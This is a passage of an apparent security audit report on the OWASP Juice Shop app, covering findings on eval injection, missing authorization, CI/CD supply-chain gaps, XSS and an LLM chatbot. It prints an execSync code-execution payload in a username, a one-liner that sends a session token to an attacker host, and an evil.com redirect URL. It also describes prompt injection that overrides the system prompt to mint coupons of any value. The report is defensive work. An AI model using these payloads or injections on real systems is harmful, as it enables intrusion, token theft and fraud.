**Issue:** `getUserProfile()` extracts a substring of the authenticated user's stored username matching /#{(.*)}/ and passes it to `eval()` server-side. Because the username is user-controlled (set via profile update), an attacker registers/updates their username to `#{global.process.mainModule.require('child_process').execSync('id')}` and triggers code execution in the Node process when their profile page renders, achieving server-side RCE.

Remote code execution in the Express process under the application's privileges.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - username = eval(code) where code is derived from user.username via a regex extraction, with no sandboxing.

```typescript
// routes/userProfile.ts:61
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❷ [M-047](#m-047) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:310`

**Instances (17):** `server.ts:310`, `server.ts:311`, `server.ts:407`, `server.ts:419`, `server.ts:420`, `server.ts:421`, `server.ts:437`, `server.ts:440` … (+9 more)

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), utils.asyncHandler(profileImageFileUpload()))
  app.post('/profile/image/url', uploadToMemory.single('file'), utils.asyncHandler(profileImageUrlUpload()))
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), utils.asyncHandler(addMemory()))
```

**Fix:** ❷ [M-048](#m-048) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:362`

**Issue:** GET `/api/Users` is guarded only by `security.isAuthorized()` (JWT presence), with no role/ownership check. Any logged-in customer therefore enumerates every user record via the Sequelize auto-REST layer, including email addresses and md5 password hashes.

Combined with the `MD5` weakness (backend-api-005), this hands an ordinary user a crackable dump of all credentials. Horizontal/vertical access-control breach: any authenticated user reads all users' PII and password hashes.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `app.get`('/api/Users', `security.isAuthorized()`) attaches only authentication, not an isAdmin/role middleware.

```typescript
// server.ts:362
  app.use('/api/Feedbacks/:id', security.isAuthorized())
  /* Users: Only POST is allowed in order to register a new user */
  app.get('/api/Users', security.isAuthorized())
  app.route('/api/Users/:id')
    .get(security.isAuthorized())
```

**Fix:** ❷ [M-049](#m-049) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Missing Explicit Workflow Permissions

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** 13 of 16 workflow files declare no top-level `permissions:` block, so each job inherits the repository default `GITHUB_TOKEN` scope. On repos created before the 2023 GitHub default change - or where the org/repo default was left at read-write - that default is write across `contents`, `packages`, `pull-requests`, and `issues`.

`ci.yml` is the highest-value example: its `docker` and `heroku` jobs hold deploy credentials and run after fork-influenced install steps. A compromised step in any unscoped workflow wields a write-capable GITHUB_TOKEN, turning a single supply-chain foothold into repo-write, release-publish, or package-push.

**Evidence:** ✓ verified - 13 of 16 files under `.github/workflows/` contain no `permissions:` key; `ci.yml`, `release.yml`, and `image_actions.yml` are among them.

```yaml
// .github/workflows/ci.yml:1
name: "CI/CD Pipeline"
on:
  push:
```

**Fix:** ❷ [M-050](#m-050) — Add a least-privilege top-level permissions block to every workflow

**Classification:** Supply-Chain Integrity · [CWE-272](https://cwe.mitre.org/data/definitions/272.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Install Scripts Execute Untrusted PR

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:161`

**Issue:** The `frontend-test`, `server-test`, and `api-test` jobs run `npm install` (`ci.yml:85,124,161`) without `--ignore-scripts` on the `pull_request` trigger (`ci.yml:14`). A forked PR controls `package.json`, so its `preinstall`/`postinstall` lifecycle scripts execute on the runner during install.

The `api-test` job exposes `ALCHEMY_API_KEY` (`ci.yml:167`) in the same job that runs the attacker-influenced install; a postinstall hook can read `process.env` and exfiltrate it. Attacker-controlled lifecycle scripts run on the CI runner alongside ALCHEMY_API_KEY and, at release, as root in the image build, enabling secret theft or artifact tampering.

**Evidence:** ✓ verified - Install steps at `ci.yml` lines 85/124/161 invoke `npm install` with no `--ignore-scripts`, while only the lint job (line 36) passes the flag.

```yaml
// .github/workflows/ci.yml:161
      - name: "Install application"
        if: github.repository == 'juice-shop/juice-shop' || (github.repository != 'juice-shop/juice-shop' && matrix.os == 'ubuntu-latest' && matrix.node-version == '24')
        run: npm install
      - name: "Execute integration tests"
        if: github.repository == 'juice-shop/juice-shop' || (github.repository != 'juice-shop/juice-shop' && matrix.os == 'ubuntu-latest' && matrix.node-version == '24')
```

**Fix:** ❷ [M-051](#m-051) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · `User.role` is mass-assignable column only

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint _(raw Critical)_  ·  **Component:** [C-03](#c-03) - SQLite Data Layer  ·  **Location:** `models/user.ts:80`

**Issue:** The User model exposes role as an ordinary writable attribute whose only guard is `validate.isIn`(['customer','deluxe','accounting','admin']) (`models/user.ts:80-99`). Sequelize create/update calls that spread untrusted request bodies (e.g. UserModel.create(`req.body`) in registration/profile-update routes) will therefore accept and persist role: 'admin' as long as the value is one of the allowed enum members - the isIn check confirms it is a known role but does NOT confirm the caller is authorized to grant it.

There is no field-level write authorization at the model layer (no readonly/immutable role attribute, no beforeSave hook rejecting privilege escalation), so the data tier itself permits a self-service privilege jump if any consuming route fails to strip the field. If any route mass-assigns the request body to the User model, an attacker registers or updates themselves to role 'admin', gaining full administrative privilege.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `models/user.ts:80`-99 defines role as a writable STRING with only an isIn membership validator and no authorization or immutability guard at the model layer.

```typescript
// models/user.ts:80
        }
      }, // vuln-code-snippet end weakPasswordChallenge
      role: {
        type: DataTypes.STRING,
        defaultValue: 'customer',
```

**Fix:** ❷ [M-052](#m-052) — Make `User.role` non-mass-assignable and authorize role changes in a model hook

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Admin authorization decided client-side unverified

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.guard.ts:57`

**Issue:** `AdminGuard.canActivate()` (`app.guard.ts:51-60`) authorizes the `/admin` zone purely by jwtDecode-ing the localStorage token and comparing `payload.data.role` to roles.admin. jwtDecode does NOT verify the signature (LoginGuard.tokenDecode, `app.guard.ts:38`), and the decision runs entirely in the browser.

An attacker can either (a) hand-craft a JWT with role='admin' in localStorage to satisfy the guard and load the admin UI, or (b) ignore the SPA entirely and call the backend admin endpoints directly - recon Section 7.10/route analysis confirms guards are client-only with 'no server-side authorization on API endpoints'. Forging a role claim or calling the API directly grants admin-zone access, defeating the admin trust boundary.

**Evidence:** ✓ verified - AdminGuard authorizes by reading an unverified, client-decoded JWT role claim with no server-side authorization backing it.

**Fix:** ❷ [M-053](#m-053) — Enforce admin/accounting authorization server-side on every privileged endpoint

**Classification:** Broken Access Control · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:642`

**Issue:** The three `/rest/web3/*` endpoints (`nftMintListen` GET, `walletNFTVerify` POST at 643, `walletExploitAddress` POST at 644) are registered with no `security.isAuthorized()` middleware, unlike `/rest/basket`, `/api/Users`, etc. (`server.ts:355-380`). `nftMintListener` performs a privileged outbound action - establishing a long-lived WebSocket subscription to the Alchemy RPC using the server's `ALCHEMY_API_KEY` - triggerable by any anonymous GET.

There is no per-user scoping: the `isEventListenerCreated`, `addressesMinted`, and `walletsConnected` values are process-global, so any caller mutates state shared across all users. Anonymous callers can trigger server-side RPC subscriptions on the operator's API key and mutate global challenge state with no authentication boundary.

**Evidence:** ✓ verified - `server.ts` registers the `/rest/web3` routes with no `isAuthorized()` guard, exposing privileged RPC-subscription and challenge-state operations to anonymous callers.

```typescript
// server.ts:642
  app.post('/rest/web3/submitKey', utils.asyncHandler(checkKeys()))
  app.get('/rest/web3/nftUnlocked', nftUnlocked())
  app.get('/rest/web3/nftMintListen', utils.asyncHandler(nftMintListener()))
  app.post('/rest/web3/walletNFTVerify', walletNFTVerify())
  app.post('/rest/web3/walletExploitAddress', utils.asyncHandler(contractExploitListener()))
```

**Fix:** ❷ [M-055](#m-055) — Gate `/rest/web3` endpoints behind security.isAuthorized and scope state per authenticated user

**Classification:** Unauthenticated Management Plane · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Prompt Injection

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - LLM Chat Interface  ·  **Location:** `routes/chat.ts:189`

**Issue:** LLM01 - Prompt Injection: The request body's `messages` array (`routes/chat.ts:189`) is forwarded verbatim into `streamText({ system: systemPrompt, messages, ... })` at `routes/chat.ts:201`-205.

There is no sanitization, no delimiter escaping, and no separation between trusted system instructions and untrusted user turns beyond the SDK's role tagging. An attacker overrides system-prompt rules to coerce tool calls (e.g. coupon generation), leak the system prompt, or produce arbitrary output attributed to the shop's chatbot.

**Evidence:** ✓ verified - User-supplied `req.body.messages` flows unaltered into the model call at `routes/chat.ts:201`-205; the only guardrail is natural-language policy text in the system prompt.

```typescript
// routes/chat.ts:189

    const model = config.get<string>('application.chatBot.model')
    const messages = req.body?.messages ?? []
    const userName = await getUserNameFromToken(req)

```

**Fix:** ❷ [M-033](#m-033) — Enforce coupon and tool policy in code rather than in system-prompt prose, and isolate untrusted user turns

**Classification:** Injection · [CWE-1427](https://cwe.mitre.org/data/definitions/1427.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Sensitive columns stored unencrypted rest

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-03](#c-03) - SQLite Data Layer  ·  **Location:** `models/card.ts:40`

**Issue:** The SQLite database is persisted as a plain unencrypted file at data/juiceshop.sqlite (`models/index.ts:41`), and no model applies field-level encryption (grep across models/ for encrypt|crypto|cipher|AES returns zero hits). The Card model stores cardNum as a raw INTEGER full primary account number with no truncation, masking, or encryption (`models/card.ts`), the User model stores totpSecret in cleartext (`user.ts:113`), and Feedback/Address/Complaint models hold free-text PII in cleartext.

Anyone able to read the database file - a malicious co-tenant process, a stolen backup, a container volume snapshot, or an LFI/path-traversal that reaches data/juiceshop.sqlite - recovers full card numbers, the second-factor seed (defeating 2FA), and customer PII directly, with no cryptographic barrier. Direct recovery of full payment card numbers, TOTP seeds, and customer PII from any read of the database file or backup, with no decryption step required.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `models/card.ts` declares cardNum as a plain INTEGER with only range validation, `models/index.ts:41` writes an unencrypted SQLite file, and no model in models/ contains any encryption primitive.

```typescript
// models/card.ts:40
      fullName: DataTypes.STRING,
      cardNum: {
        type: DataTypes.INTEGER,
        validate: {
          isInt: true,
```

**Fix:** Encrypt the data in transit and at rest with vetted primitives → ❸ [M-037](#m-037) — Encrypt the SQLite file and apply field-level encryption to card numbers and TOTP secrets

**Classification:** Cryptographic Failures · [CWE-311](https://cwe.mitre.org/data/definitions/311.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/Services/request.interceptor.ts:16`

**Issue:** The session JWT is persisted in localStorage and re-read on every outbound request by RequestInterceptor (`request.interceptor.ts:13-18`), which attaches it as 'Authorization: Bearer <token>'. localStorage is readable by any JavaScript executing in the origin, so any of the numerous DOM-XSS sinks in this SPA (`search-result.component.ts:143`, `last-login-ip.component.ts:39`, `hacking-instructor/index.ts:126`) lets an attacker exfiltrate the bearer token with a one-liner 'fetch(evil+`localStorage.token`)'.

The OAuth flow (`oauth.component.ts:50`) and 2FA flow (`two-factor-auth-enter.component.ts:53`) both write the same token to localStorage, so every authentication path feeds this XSS-extractable store. A single successful XSS yields a long-lived bearer token usable for full account takeover and direct API access bypassing all client guards.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - RequestInterceptor reads the raw JWT from localStorage and the OAuth/2FA login paths write it there, with no httpOnly cookie alternative anywhere in the SPA.

**Fix:** ❸ [M-040](#m-040) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Improper Authorization

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - LLM Chat Interface  ·  **Location:** `routes/chat.ts:174`

**Issue:** LLM06 - Excessive Agency: The generateCoupon tool (`routes/chat.ts:174-185`) is exposed to the model and calls security.generateCoupon(discount) at line 182 with the discount value the model chose. The eligibility policy - verified damaged order, rejected return, max 10% discount (system prompt lines 98-103) - is enforced only as natural-language instructions, never in `execute()`.

The handler performs no server-side check that the caller has a damaged order, and does not clamp `discount`. Any chat user can mint arbitrary-discount coupons (including 100% off), causing direct financial loss, by steering the LLM to invoke the coupon tool outside policy.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `generateCoupon.execute()` at `routes/chat.ts:179`-184 issues a discount coupon using the model-supplied `discount` with no server-side eligibility check and no upper-bound clamp.

```typescript
// routes/chat.ts:174

      // vuln-code-snippet start chatbotPromptInjectionChallenge
      generateCoupon: tool({
        description: 'Generate a discount coupon for a customer. Only use this when the coupon policy conditions are fully met.', // vuln-code-snippet neutral-line chatbotPromptInjectionChallenge chat
        inputSchema: z.object({
```

**Fix:** Add explicit server-side authorisation checks on every protected route → ❷ [M-054](#m-054) — Enforce server-side authorization

**Classification:** Broken Access Control · [CWE-285](https://cwe.mitre.org/data/definitions/285.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Issue:** `last-login-ip.component.ts:39` wraps the JWT claim `payload.data.lastLoginIp` in HTML and passes it through bypassSecurityTrustHtml, then binds it to [innerHTML]="lastLoginIp" (`last-login-ip.component.html:10`). The lastLoginIp value originates from a client-supplied request header (commonly X-Forwarded-For / True-Client-IP) recorded server-side and embedded back into the JWT, so an attacker who logs in with a forged IP header containing '``' achieves persistent XSS that fires whenever they (or, in admin-review contexts, a staff member) view the last-login-IP panel.

The bypassSecurityTrustHtml call removes Angular's escaping on this attacker-influenced value. An attacker-controlled login IP header yields persistent script execution in the origin, enabling token theft.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - A JWT claim derived from a client-controllable login IP header is wrapped in HTML, trusted via bypassSecurityTrustHtml, and rendered with [innerHTML].

```typescript
// frontend/src/app/last-login-ip/last-login-ip.component.ts:39
      if (payload.data.lastLoginIp) {

        this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`)
      }
    }
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-031](#m-031) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:143`

**Issue:** `filterTable()` reads the 'q' query parameter and passes it directly into DomSanitizer.bypassSecurityTrustHtml(queryParam) (`search-result.component.ts:143`), whose result is bound to [innerHTML]="searchValue" in the template (`search-result.component.html:11`). bypassSecurityTrustHtml disables Angular's auto-escaping, so an attacker who lures a victim to `/search`?q=`` executes arbitrary script in the victim's origin.

The same component also trusts server-provided product descriptions at line 110 (bypassSecurityTrustHtml(tableData[i].description)), giving a stored-XSS path when description content is attacker-influenced. Attacker-crafted search URLs run arbitrary script in the victim origin, leading to token theft and full account takeover.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - The 'q' query parameter is fed through bypassSecurityTrustHtml and rendered via [innerHTML], disabling Angular escaping for attacker-controlled input.

```typescript
// frontend/src/app/search-result/search-result.component.ts:143
      }) // vuln-code-snippet hide-end
      this.dataSource.filter = queryParam.toLowerCase()
      this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam) // vuln-code-snippet vuln-line localXssChallenge xssBonusChallenge
      if (this.gridDataSourceSubscription) {
        this.gridDataSourceSubscription.unsubscribe()
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-032](#m-032) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (18)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Insufficient Verification of Data Authenticity

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts:138`

**Issue:** isRedirectAllowed checks url.includes(allowedUrl) against the allowlist - a substring test. An attacker crafts a redirect target like https://evil.com/?x=https://github.com/juice-shop/juice-shop, which contains an allowlisted string and therefore passes, so the application redirects victims to an attacker-controlled site (phishing / token leakage via referer).

Open redirect usable for phishing and credential/token capture.

**Evidence:** ✓ verified - isRedirectAllowed returns true whenever the target url merely includes an allowlisted URL as a substring, rather than matching it exactly.

**Fix:** ❸ [M-056](#m-056) — Verify token signatures before trusting claims

**Classification:** Broken Authentication · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Long-Lived Publish Token Instead OIDC

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:65`

**Issue:** The release `docker` job authenticates to Docker Hub with a long-lived `DOCKERHUB_TOKEN` secret (`release.yml:64-65`, mirrored in `ci.yml:340-341`), and the package job uploads release archives with `GITHUB_TOKEN` (`release.yml:51`). No workflow declares `id-token: write` - confirmed absent across all workflows - so OIDC Trusted Publishing is not in use anywhere.

A single stolen long-lived token lets an attacker publish a poisoned image under the trusted juice-shop name to all downstream consumers.

**Evidence:** ✓ verified - `release.yml` lines 64-65 supply a static DOCKERHUB_TOKEN; no workflow in the tree declares `id-token: write` for OIDC.

**Fix:** ❸ [M-057](#m-057) — Adopt OIDC Trusted Publishing and remove the long-lived DOCKERHUB_TOKEN

**Classification:** Supply-Chain Integrity · [CWE-1393](https://cwe.mitre.org/data/definitions/1393.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Missing Authentication

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/Services/socket-io.service.ts:22`

**Issue:** SocketIoService opens the Socket\.IO connection with io(`window.location.origin`, { path }) and no auth payload (`socket-io.service.ts:22-24`) - the localStorage JWT is never passed in the handshake. The SPA then emits and listens on this channel (e.g. verifyLocalXssChallenge in `search-result.component.ts:140`, 'challenge solved' in `navbar.component.ts:168`).

Any client can join the channel and emit/receive events without identity, enabling event spoofing and unauthorized message injection.

**Evidence:** ✓ verified - The Socket\.IO client handshake includes no auth token, so the real-time channel accepts unauthenticated connections.

**Fix:** ❸ [M-058](#m-058) — Authenticate the Socket\.IO handshake with the session token and authorize each event server-side

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · Untrusted External Contribution Public Repository

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:14`

**Issue:** OWASP Juice Shop is a public repository, so any internet user can fork it and open a pull request proposing arbitrary code (the `pr-compliance.yml` triage flow exists precisely because forker PRs are actively solicited). The `pull_request` CI trigger (`ci.yml:14`) runs that proposed code through install and test on the runner.

Absent enforced required review, attacker-proposed insecure or malicious code can reach the trunk and ship to the published image and Heroku deploy.

**Evidence:** ✓ verified - The repo is public and the pull_request trigger (`ci.yml:14`) plus `pr-compliance.yml` confirm an actively solicited external-contribution surface feeding trunk-deploying jobs.

**Fix:** ❸ [M-059](#m-059) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Vulnerable Third-Party Component

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:14`

**Issue:** The repo has no `.github/dependabot.yml`, no `renovate.json`, and no `dependency-review-action` step in any workflow - all confirmed absent. `npm audit` runs only advisory, not as a blocking gate.

Vulnerable or malicious dependencies enter via stale graphs or unreviewed PR manifest diffs with no automated gate to stop them.

**Evidence:** ✓ verified - No `dependabot.yml`, `renovate.json`, or dependency-review-action exists in the repo; npm audit is advisory only.

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-060](#m-060) — Add Dependabot updates plus a blocking dependency-review gate on PRs

**Classification:** Supply-Chain Integrity · [CWE-1395](https://cwe.mitre.org/data/definitions/1395.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Insufficient Verification of Data Authenticity

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - Web3/NFT Integration  ·  **Location:** `routes/web3Wallet.ts:26`

**Issue:** Both listeners open a `WebSocketProvider` to `wss://eth-sepolia.g.alchemy.com` (`routes/nftMint.ts:18`, `routes/web3Wallet.ts:20`) and subscribe to contract events (`NFTMinted` at `routes/nftMint.ts:24`, `ContractExploited` at `routes/web3Wallet.ts:26`). The event payload (`minter` / `exploiter` address) is consumed directly with no schema validation, no checksum-address normalisation, and no confirmation-depth check before it is used to mutate challenge-gating state.

Unvalidated cross-boundary RPC event data can corrupt in-memory wallet/mint state and unlock challenges based on data the application never authenticated.

**Evidence:** ✓ verified - `contract.on`('ContractExploited', ...) consumes the event-supplied exploiter address with no type/format validation or confirmation check before deleting from walletsConnected and solving the challenge.

**Fix:** ❸ [M-062](#m-062) — Verify token signatures before trusting claims

**Classification:** Insecure Real-Time Channel · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-09](#c-09) - Authentication and Session Surface  ·  **Location:** `routes/login.ts:32`

**Issue:** Neither `login()` (`routes/login.ts`), `resetPassword()` (`routes/resetPassword.ts`), nor the 2FA setup/disable handlers (`routes/2fa.ts`) emit an audit record of who authenticated, who failed, whose password was reset, or whose second factor was changed. There is no actor+action+resource+timestamp trail.

Account-takeover and privilege-abuse events are non-attributable and undetectable, preventing incident response and forensics.

**Evidence:** ✓ verified - The login handler at `routes/login.ts:32` issues tokens and resolves without writing any authentication audit event; the same gap exists across reset and 2FA flows.

**Fix:** ❸ [M-063](#m-063) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/login.ts:34`

**Issue:** The backend has no append-only security audit log. Authentication events (login success/failure in `routes/login.ts`), authorization decisions, and privileged mutations via the auto-REST /api/* layer are not recorded with actor/action/resource/timestamp - the only logging is ad-hoc `logger.warn` calls (e.g. `profileImageUrlUpload.ts:37`).

Inability to attribute or reconstruct authentication and admin activity after a compromise.

**Evidence:** ✓ verified - No structured security/audit logger is wired into the auth or admin paths; logging is limited to scattered warn/info lines.

**Fix:** ❸ [M-064](#m-064) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · Error Message Disclosure

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:678`

**Issue:** The global error middleware is `app.use`(`errorhandler()`) with no NODE_ENV guard. The `errorhandler` package renders full stack traces, source file paths, and library versions in the HTTP response.

Reconnaissance: stack traces, file paths, dependency versions, and DB error detail disclosed to attackers.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `errorhandler()` is applied as the terminal middleware with no production/development branch, so stack traces render in all environments.

**Fix:** Replace developer error pages with a generic message in production responses → ❸ [M-066](#m-066) — Return generic error messages to clients

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · USER directive

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `test/smoke/Dockerfile:1`

**Issue:** Dockerfile USER directive (non-root). Containers running as root expand container-escape blast radius.

**Evidence:** ✓ verified

**Fix:** ❸ [M-008](#m-008) — Drop unnecessary privileges in build and runtime

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · Improper Verification of Cryptographic Signature

**Severity:** 🟡 Medium - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/lock.yml:1`

